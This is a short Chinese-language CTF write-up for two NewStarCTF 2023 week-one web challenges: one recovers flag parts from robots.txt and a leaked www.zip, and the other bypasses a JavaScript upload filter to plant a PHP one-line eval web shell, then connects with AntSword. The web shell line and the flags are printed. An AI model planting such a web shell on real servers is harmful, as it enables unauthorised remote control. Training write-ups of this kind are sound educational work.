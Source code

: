 # NewStarCTF_2023

## WEEK1|WEB 泄露的秘密

进入给定靶机提示**“粗心的管理员泄漏了一些敏感信息，请你找出他泄漏的两个敏感信息！”**：

1. 敏感信息很容易想到robots.txt，通过url访问robots.txt也确实有信息，得到第一段flag

   ```tex
   PART ONE: flag{r0bots_1s_s0_us3ful
   ```

2. 对于第二个敏感信息由于题目做得不多，试了网上说的常见的还是不行，干脆直接dirsearch扫服务器的目录发现除了robots.txt可以访问之外还有www.zip可以访问，在url添加www.zip下载压缩包，解压得到一个index.php文件中有第二段flag

   ```php
   $PART_TWO = "_4nd_www.zip_1s_s0_d4ng3rous}";
   ```

   ## WEEK1|WEB Begin of Upload

   通过题目可以看到应该是利用文件上传的漏洞，在google浏览器先上传一个php文件发现有过滤，在**设置**中对js进行禁止就可以成功上传php文件，php文件内容如下：（利用一句话木马）

   ```php
   <?php @eval($_POST['attack']);?>
   ```

   成功将文件上传后利用蚁剑连接一句话木马成功进入服务器，在服务器的文件列表发现有f11114g文件打开得到flag

   ```tex
   flag{b082c1e5-526a-4dbd-a5c4-00fa035bfb3c}
   ```

   

